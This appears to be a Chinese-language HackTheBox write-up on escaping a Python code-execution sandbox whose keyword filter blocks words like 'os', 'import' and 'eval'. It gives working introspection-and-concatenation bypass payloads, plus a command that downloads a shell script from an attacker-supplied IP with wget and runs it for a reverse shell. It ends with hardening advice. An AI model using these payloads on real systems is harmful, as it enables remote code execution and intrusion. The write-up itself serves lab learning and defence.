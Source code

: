 
> 今天在做`HackTheBox`的时候遇到的靶机是`code`。在`5000`端口有一个在线python代码执行窗口。
> 
> 众所周知，可以在`py`里执行命令行的命令如`ls`、`pwd`等，自然可以实现文件读取，甚至`reverse shell`了。因此，一般都会施加额外限制。比如这台靶机的限制就极为粗糙。用的是类似与`string.contains("RESTRICTED WORDS")`的方法，限制了诸如`os`、`import`、`eval`等关键词。今天，我们来研究一下如何绕过这种限制。


## eval函数

> **eval()** 函数可以用来执行一个字符串表达式，并返回表达式的值。

```python
namespace = {'a': 2, 'b': 3}  
result = eval("a + b", namespace)  
print(result)  # 输出: 5
```

能把字符串转成命令，就存在危险。

```python
eval("__import__('os').system('ls /home/killua')")
```

我们就要利用它的这个特性。但是，我们没有办法在代码里出现`eval`这个字符串，怎么办？如果只是字符串可以用拼接绕过（如违禁词`Killua`可以看作`"Kil"+"lua"`），函数名呢？

## 寻找Eval函数

先看一段代码，然后让我们了解一下原理：

```python
for i in range(500):
    try:
        x = ''.__class__.__bases__[0].__subclasses__()[i].__init__.__globals__['__buil'+'tins__']
        if 'ev'+'al' in x:
            print(i)
    except Exception as e:
        continue
```

- `''`: 我们从一个最基本的 Python 对象开始，这里是一个空字符串。任何其他基本对象（比如 `0`，`[]`，`{}` 等）也可以作为起点，只要它们能够最终向上追溯到 `object` 类。
- `.__class__`: 访问对象的 `__class__` 属性，获取它的类型。对于空字符串 `''`，它的类型是 `<class 'str'>`。
- `.__bases__`: 访问类型的 `__bases__` 属性，获取它的所有直接基类组成的元组。对于 `str` 类，它的直接基类是 `object`，所以 `str.__bases__` 是 `(<class 'object'>,)`。
- `[0]`: 访问元组的第一个元素。在这里，我们获取了所有 Python 类的根基类 `<class 'object'>`。
- `.__subclasses__()`: 调用 `object` 类的 `__subclasses__()` 方法。这个方法会返回一个**当前已知的所有直接继承自 `object` 类的子类**的列表。这个列表包含了许多 Python 内部用于实现各种功能的类，比如与 I/O、网络、线程、进程等相关的内部类。
- `[i]`: 从 `__subclasses__()` 返回的列表中按索引 `i` 获取一个特定的类。**这是关键且依赖于环境的部分。** 代码假设在某个特定的索引 `i` 位置上的类，其内部结构（特别是它的构造函数 `__init__` 的全局作用域）能够访问到 Python 的内置函数。哪些类可能满足这个条件呢？通常是那些与执行环境、解释器核心功能、I/O 或多线程/多进程相关的内部类。它们的 `__init__` 方法在执行时，其全局字典通常会包含对 `__builtins__` 的引用。
- `.__init__`: 访问通过索引 `[i]` 获取到的那个类的 `__init__` 方法（构造函数）。这是一个函数对象。
- `.__globals__`: 访问函数对象的 `__globals__` 属性。每个函数对象都有一个 `__globals__` 属性，它是一个字典，包含了该函数定义时所处的全局命名空间。对于 Python 核心库或内置功能的函数来说，这个全局字典通常包含了对 `__builtins__` 的引用。
- `['__buil'+'tins__']`: 从 `__globals__` 字典中通过键 `'__builtins__'` 获取到 Python 的内置命名空间对象。这里使用了字符串拼接 `'__buil' + 'tins__'` 来构造键名，是为了**绕过那些直接过滤掉 `"__builtins__"` 这个字符串的防御机制**。`__builtins__` 对象包含了所有内置函数（如 `print`, `len`, `open`, `eval` 等）、内置异常和内置常量。
- `['ev'+'al']`: 从获取到的 `__builtins__` 对象中通过键 `'eval'` 获取到 `eval` 函数本身。同样使用了字符串拼接 `'ev' + 'al'` 来构造键名，**绕过直接过滤 `"eval"` 字符串的防御机制**。

假设我们找到的`i`其中一个是`80`：

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("ls /").re'+'ad()'))

```

- `__import__("os")`: 这是 Python 动态导入模块的方式。这里使用了字符串拼接 `'__imp' + 'ort__'` 和 `'o' + 's'` 来构造模块名，**同样是为了绕过直接过滤 `"import"` 和 `"os"` 字符串的防御机制**。它会导入 `os` 模块。
- `.popen("ls /")`: 调用 `os` 模块中的 `popen` 函数。`os.popen()` 函数可以在一个子 Shell 中执行一个命令行命令（在这里是 `ls /`），并返回一个文件对象，通过它可以读取命令的标准输出。
- `.read()`: 读取 `os.popen("ls /")` 返回的文件对象的所有内容，即 `ls /` 命令的输出结果。

执行`reverse shell`上传连接：

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("wget 你的IP:你的端口/shell.sh -O /tmp/shell.sh").re'+'ad()'))
 
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("bash /tmp/shell.sh").re'+'ad()'))
```

## Python的结构

- `__class__`: 每个 Python 对象都有，指向创建该对象的类型。
- `__bases__`: 每个类型（类）都有，是一个元组，包含该类直接继承的所有基类。
- `__subclasses__()`: 这是一个方法，只有类对象有，调用它会返回所有直接继承自该类的子类列表。`object.__subclasses__()` 是获取系统中已知的大量内部类的重要入口。
- `[i]` 或 `[80]`: 这是列表索引操作，从 `__subclasses__()` 返回的列表中取出一个元素，这个元素是一个类对象。
- `__init__`: 类的构造函数方法，是一个函数对象。
- `__globals__`: 函数对象有，指向该函数定义时的全局变量字典。
- `__builtins__`: 在很多模块或核心函数的全局命名空间中都有这个引用，指向 Python 内置模块或内置函数字典。它本身包含了 `eval` 等内置函数。

## 安全问题

当然，我们看到了这样的安全限制是非常不合理的，因此：

- 将沙箱代码运行在一个**独立、权限极低**的用户下。
- 使用 容器（ Docker）来**限制文件系统访问**，只允许访问必要的目录。
- **禁用网络访问**，一个在线代码执行平台被执行了`reverse shell`了还是太超过了。
- **禁用执行其他程序**的能力（例如通过 AppArmor, SELinux 或 Linux Seccomp 等）。这样即使能调用 `os.popen("ls /")`，操作系统也会阻止 `ls` 命令的执行。